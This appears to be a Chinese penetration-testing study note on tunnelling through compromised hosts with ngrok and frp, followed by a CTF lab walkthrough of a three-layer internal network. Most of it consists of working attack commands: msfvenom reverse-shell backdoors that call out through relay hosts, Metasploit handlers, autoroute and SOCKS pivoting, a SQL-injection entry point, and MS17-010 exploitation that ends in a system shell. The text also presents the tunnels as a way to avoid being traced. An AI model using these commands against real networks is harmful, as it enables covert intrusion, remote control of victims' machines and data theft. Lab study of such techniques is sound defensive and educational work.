


# 内网安全——隧道穿透漫游与代理

## Sock代理测评

1. 旨在代理连接肉鸡后实现本地渗透肉鸡网络架构。
2. 代理工具
   - Linux：Proxychains
   - Windows：Sockscap Proxifier

3. 穿透平台：

   - [ngrok官网](https://www.ngrok.cc)

     [ngrok下载](https://www.ngrok.cc/download.html)

   - [fatedier](https://github.com/fatedier/frp/releases)

   - [ehang-io](https://github.com/ehang-io/nps/releases)

   - [EarthWorm](http://www.rootkiter.com/EarthWorm/)

4. 穿透工具的优点：穿透加密数据，中间平台，防追踪，解决网络问题

## 内网穿透Ngrok平台测评-两个独立内网通讯上线

1. 实验环境：两个不同的内网(有网络)实现穿透控制

   - 注册-购买-填写-确认http://www.ngrok.cc/

     - 协议：http
     -  本地端口：192.168.46.131:80

   - 测试：内网1执行后门-免费主机处理-内网2监听-内网2接受器

     ``` powershell
     ./sunny clientid 7e543d3efc295766 #控制端连接Ngrok的服务器
     
     msfvenom -p windows/meterpreter/reverse_http lhost=域名url lport=80 -f exe -o test.exe
     
     use exploit/multi/handler
     
     set payload windows/meterpreter/reverse_http
     
     set lhost 192.168.46.131
     
     set lport 80
     
     exploit
     ```

## 内网穿透Frp自建跳板测评-两个独立内网通讯上线

1. 自行搭建，方便修改，成本低，使用多样化

   - 服务端-下载-解压-修改-启动（阿里云主机记得修改安全组配置出入口）

     - 服务器修改配置文件frps.ini：

       ``` shell
       [common]
       
       bind_port = 7000
       ```

     - 启动服务端：

       ``` shell
       ./frps -c ./frps.ini
       ```

   - 控制端-下载-解压-修改-启动

     - 控制端修改配置文件frpc.ini：

       ``` shell
       [common]
       
       server_addr = IP
       
       server_port = 7000        #frpc工作端口，必须和上面frps保持一致
       
       [ssh]
       
       type = tcp
       
       local_ip = 127.0.0.1
       
       local_port = 5555          #转发给本机的5555
       
       remote_port = 6000         #服务端用6000端口转发给本机
       ```

     - 启动客户端：

       ``` shell
        ./frpc -c ./frpc.ini
       ```

     - msf生成后门程序

       ``` shell
       msfvenom -p windows/meterpreter/reverse_tcp lhost=IP lport=6000 -f exe -o frp.exe
       
       use exploit/multi/handler
       
       set payload windows/meterpreter/reverse_tcp
       
       set LHOST 127.0.0.1
       
       set LPORT 5555
       
       exploit
       ```

   - 靶机运行frp.exe即可



## 大赛模拟-CFS三层内网漫游演练测评-某CTF2019

1. 来源2019某CTF线下赛真题内网结合WEB攻防题库，涉及WEB攻击，内网代理路由等技术，每台服务器存在一个Flag,获取每一个Flag对应一个积分，获取三个Flag结尾。

2. Target1：探针目标-利用WEB漏洞(TP5_RCE)-获取webshell权限-获取Flag-Target2

   - 生成后门：

     ``` shell
     msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.46.131 LPORT=1111 -f elf >t1.elf
     ```

   - 接受反弹：

     ``` shell
     use exploit/multi/handler
     
     set payload linux/x64/meterpreter/reverse_tcp
     
     set LHOST 192.168.46.131
     
     set LPORT 1111
     
     exploit
     ```

   - 信息收集及配置访问

     - 获取网络接口

       ``` shell
       run get_local_subnets
       ```

     - 查看路由地址：

       ``` shell
       run autoroute -p
       ```

     - 添加路由地址：

       ``` shell
       run autoroute -s 192.168.22.0/24
       ```

     - 开启本地代理：（创建SOCK5协议代理）

       ``` shell
       use auxiliary/server/socks5
       
       set srvport 2222
       
       exploit
       ```

   - 利用本地代理接口访问测试

     - 设置浏览器代理进行访问测试

       - linux：配置proxychains后调用工具探针Target2 

         ``` shell
         /etc/proxychains.conf
         
         socks5 	192.168.46.131 2222
         
         proxychains nmap -sT -Pn 192.168.22.0/24 -p80
         
         -Pn：扫描主机检测其是否受到数据包过滤软件或防火墙的保护。
         
         -sT：扫描TCP数据包已建立的连接connect
         ```

       - windows：利用代理工具Proxifier或SocksCap64载入代理进行进程访问测试

3. Target2：探针目标-利用WEB漏洞(SQL注入)-后台获取webshell权限-获取Flag-Target3

   ```shell
   http://192.168.22.128/index.php?r=vul&keyword=1 #sql注入
   
   http://192.168.22.128/index.php?r=admini/public/login #后台
   
   http://192.168.22.128/index.php?r=special  #后门shell
   ```

   - 生成正向后门：

     ``` shell
     msfvenom -p linux/x64/meterpreter/bind_tcp LPORT=3333 -f elf > t2.elf
     ```

   - 访问接受：

     ``` shell
     use exploit/multi/handler
     
     set payload linux/x64/meterpreter/bind_tcp
     
     set rhost 192.168.22.128
     
     set LPORT 3333
     
     exploit
     ```

   - 信息收集及配置访问

     - 获取网络接口：

       ``` powershell
       run get_local_subnets
       ```

     - 查看路由地址：

       ``` powershell
       run autoroute -p
       ```

     - 添加路由地址：

       ``` powershell
       run autoroute -s 192.168.33.0/24
       ```

4. Target3:探针目标-端口及漏洞扫描-利用MS17010获取系统权限-获取Flag

   ``` powershell
   proxychains nmap -Pn -sT 192.168.33.33
   
   use auxiliary/scanner/smb/smb_ms17_010   #判断漏洞
   
   use exploit/windows/smb/ms17_010_psexec  #验证漏洞
   
   set payload windows/meterpreter/bind_tcp #正向连接
   
   set RHOSTS 192.168.33.33  #攻击目标
   
   set RHOST 192.168.33.33   #连接目标
   
   exploit
   
   shell
   
   dir /S flag.txt /B
   
   type C:\Users\Administrator\Desktop\flag.txt
   ```

